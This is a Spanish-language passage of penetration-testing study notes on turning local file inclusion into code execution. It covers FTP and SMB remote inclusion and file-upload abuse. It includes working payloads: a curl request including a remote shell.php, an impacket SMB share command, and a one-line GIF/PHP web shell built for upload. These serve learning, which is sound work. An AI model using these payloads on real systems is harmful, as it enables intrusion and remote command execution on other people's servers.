 ![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/78e10903-5087-46d1-98c3-9e7c690091f2)

```
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

## SMB

Una aplicacion web vulnerable en Windows necesitara SMB noramlmente utiliza, abrimos un servidor SMB usando "Impacket's smbserver.py" y a sí se autentifica

```
impacket-smbserver -smb2support share $(pwd)
```
![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/944831aa-be32-4670-bd48-e9bdfed92638)

## LFI Y SUBIDA DE ARCHIVOS

Las funcionalidades de subir archivos son obicuos en los sistemas modernos, los usuarios normalmente necesitan configuracion e los perfiles y usar la aplicacion para subir archivos. Los atacantes puede aaprovecha esto y sacar vulnerabilidades.

El ataque de subida de archivos coge diferentes tecnicas de subida y funcionalidaes. Sin embargo el ataque lo veremos ahora, requiere que se suba una rchivo en un form vulnerable, y grcias a ello con una ejecución de codigo cambien la funcion y capacidades, el codigo se sube y se ejcuta, Por ejemplo subes un "image.jpg" y guarad un pequeño códig PHP y incluye la vulnerabilidad LFI

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/572635d7-39b6-4962-b407-da69edb1f716)

## SUBIDAD DE IMAGEN

La subida de imagen es muy común en todas las aplicaciones modernas, subir imagenes seguras y la funcion de codificarlas. Sin embargo la vulnerabilidad en este caso si que nos funciona

### CONSTRUIR UNA IMAGEN MALICIOSA

Nuestro primer paso sera crear una imagen maliciosa que contenga codigo PHP con una web shell y funcione como imagen. Nosotros usamos extensiones de la imagen como "shell.gif" y incluye unos pequeños bytes de magia 

```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```


El archivo es nuestro y completamente inofensivo o eso parece.

Solamente necsitamos subirlo por ejemplo en un "profile settings" y cambialo por nuestra imagen. 

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/7a50aa87-a1e7-4ba2-b1e3-9e2413118c0d)

## ROTA DE SUBIDA DE LA IMAGEn
